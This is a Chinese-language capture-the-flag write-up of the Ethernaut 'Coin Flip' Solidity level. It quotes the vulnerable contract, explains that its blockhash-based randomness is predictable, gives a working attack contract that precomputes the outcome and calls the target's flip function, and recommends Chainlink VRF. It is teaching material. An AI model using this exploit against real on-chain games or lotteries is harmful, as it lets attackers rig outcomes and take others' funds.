 # Coin Flip

> 这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## 攻击思路

该合约中所使用的随机数算法依靠块高，而且FACTOR也为public变量。这种随机数方法就变成了伪随机。

## 攻击合约

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";


interface CoinFlip {
    function consecutiveWins() external view returns(uint256);
    function flip(bool _guess) external returns (bool);
}

contract Attack {
    using SafeMath for uint256;

	// 根据我的实例合约地址，shengc
    CoinFlip constant private target = CoinFlip(0xed1c7473A164Ff3C40Ff344d0cb4C222f2fdCC7C);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
	// 此函数方便我查看被攻击合约中的成功次数
    function getConsecutiveWins() public view returns (uint256){
        return target.consecutiveWins();
    }
}
```

手动调用十次attack函数，可以产生的错误：out of gas、revert等

## 建议的随机数算法

想要获得密码学上的随机数,你可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.